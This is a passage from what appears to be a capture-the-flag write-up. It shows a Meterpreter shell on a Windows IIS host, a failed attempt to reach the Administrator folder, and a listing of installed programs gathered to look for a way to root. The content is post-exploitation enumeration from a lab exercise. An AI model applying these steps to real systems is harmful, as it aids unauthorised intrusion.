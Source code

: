 Lets see if we can get root:

{% highlight bash %}
meterpreter > shell                                                                                                        
Process 1760 created.                                                                                                      
Channel 1 created.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool

C:\windows\system32\inetsrv>cd c:/Users/Administrator
cd c:/Users/Administrator
Access is denied.

C:\windows\system32\inetsrv>
{% endhighlight %}

Unfortunately we cannot so let's have a look around:

{% highlight bash %}
C:\windows\system32\inetsrv>cd c:/Program Files (x86)
cd c:/Program Files (x86)

c:\Program Files (x86)>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is BE23-EB3E

 Directory of c:\Program Files (x86)

02/23/2020  03:19 PM    <DIR>          .
02/23/2020  03:19 PM    <DIR>          ..
09/15/2018  03:28 AM    <DIR>          Common Files
09/15/2018  05:06 AM    <DIR>          Internet Explorer
02/23/2020  03:19 PM    <DIR>          Microsoft SQL Server
02/23/2020  03:15 PM    <DIR>          Microsoft.NET
02/19/2020  04:11 PM    <DIR>          MSBuild
02/19/2020  04:11 PM    <DIR>          Reference Assemblies
02/20/2020  03:14 AM    <DIR>          TeamViewer
09/15/2018  05:05 AM    <DIR>          Windows Defender
09/15/2018  03:19 AM    <DIR>          Windows Mail
10/29/2018  06:39 PM    <DIR>          Windows Media Player
09/15/2018  03:19 AM    <DIR>          Windows Multimedia Platform
09/15/2018  03:28 AM    <DIR>          windows nt
10/29/2018  06:39 PM    <DIR>          Windows Photo Viewer
09/15/2018  03:19 AM    <DIR>          Windows Portable Devices
09/15/2018  03:19 AM    <DIR>          WindowsPowerShell
               0 File(s)              0 bytes
              17 Dir(s)  19,408,666,624 bytes free

c:\Program Files (x86)>
{% endhighlight %}
